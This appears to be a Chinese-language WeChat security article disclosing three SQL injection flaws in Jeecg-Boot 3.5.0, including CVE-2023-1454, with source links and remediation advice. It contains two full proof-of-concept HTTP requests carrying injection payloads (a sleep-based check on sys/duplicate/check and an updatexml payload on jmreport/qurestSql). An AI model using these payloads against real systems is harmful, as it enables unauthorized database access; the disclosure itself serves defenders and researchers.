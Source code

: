 #  Jeegc-Boot 最新多个SQL注入漏洞

原创 Hack All [ Hack All ](javascript:void\(0\);)

**Hack All** ![]()

微信号 PTIOVHA

功能介绍 专注于网络安全，渗透测试，文章和工具分享，包括但不限于Web安全、物联网安全、车联网安全，我们的目标是Hack All！

____

___发表于_

收录于合集

#漏洞库 25 个

#漏洞复现 13 个

#漏洞知识 12 个

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230619143321.png)

**简介**  

Jeecg-Boot是一款基于Spring Boot和Jeecg-Boot-
Plus的快速开发平台，它提供了一系列的代码生成器、模板引擎、权限管理、数据字典、数据导入导出等功能，可以帮助开发者快速构建企业级应用。最近在最新的jeecg-
boot 3.5.0 中被爆出多个SQL注入漏洞。

官方网站：http://www.jeecg.com

 **影响范围**

Jeecg-Boot = v3.5.0

 **1、** **sys/duplicate/check 接口SQL注入**

sys/duplicate/check 接口存在SQL注入漏洞，checksql可以被绕过，需要身份认证，判断当前数据库用户：

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230619143323.png)

![]()

来源：

  * 

    
    
    https://github.com/jeecgboot/jeecg-boot/issues/4737

Poc：

  *   *   *   *   *   *   *   *   * 

    
    
    GET /jeecg-boot/sys/duplicate/check?tableName=v3_hello&fieldName=1+and%09if(user(%20)='root@localhost',sleep(0),sleep(0))&fieldVal=1&dataId=asd HTTP/1.1Host: 127.0.0.1:8080Accept-Encoding: gzip, deflateAccept: */*Accept-Language: en-US;q=0.9,en;q=0.8User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.114 Safari/537.36Connection: closeCache-Control: max-age=0X_ACCESS_TOKEN: [Token值]

 **2、jmreport/qurestSql 未授权SQL注入(CVE-2023-1454)**

根据J0hnWalker的分析，漏洞产生的主要原因是jimureport-spring-boot-
starter-1.5.6.jar中/org/jeecg/modules/jmreport/desreport/a/a.class文件：

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230619143324.png)

参数 apiSelectId 会从jimu_report_db表中通过id参数查询数据，id参数未过滤：

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230619143325.png)

jimu_report_db表中id值为1272834687525482497和1290104038414721025等的db_dyn_sql列是sql语句，且引用了id参数，这会导致二次注入：

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230619143326.png)

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230619143328.png)

Poc：

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    POST /jeecg-boot/jmreport/qurestSql HTTP/1.1Host: localhost:8080Cache-Control: max-age=0sec-ch-ua: "Not_A Brand";v="99", "Google Chrome";v="109", "Chromium";v="109"sec-ch-ua-mobile: ?0sec-ch-ua-platform: "macOS"Upgrade-Insecure-Requests: 1User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.0.0 Safari/537.36Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9Sec-Fetch-Site: noneSec-Fetch-Mode: navigateSec-Fetch-User: ?1Sec-Fetch-Dest: documentAccept-Encoding: gzip, deflateAccept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6Connection: closeContent-Length: 130Content-Type: application/json;charset=UTF-8  
    {"apiSelectId":"1290104038414721025","id":"1' or '%1%' like (updatexml(0x3a,concat(1,(select current_user)),1)) or '%%' like '"}

获取当前数据库用户：

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230619143329.png)

来源：  

  * 

    
    
    https://github.com/J0hnWalker/jeecg-boot-sqli

 **3、jmreport/loadTableData授权SQL注入**

可视化设计-->报表设计器功能处存在SQL注入：  

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230619143330.png)

通过新建报表添加SQL数据集：

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230619143331.png)

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230619143332.png)

在报表SQL中插入SQL语句，在数据预览时触发SQL注入：  

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230619143333.png)

来源：

  * 

    
    
    https://github.com/jeecgboot/jeecg-boot/issues/4702

 **修复建议**  

1、目前官方暂未发布安全版本修复该漏洞，请及时关注官网最新版本的发布情况。2、设置访问IP白名单或将系统部署到内网环境中。3、修改漏洞代码，过滤id参数，防止SQL注入。

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看


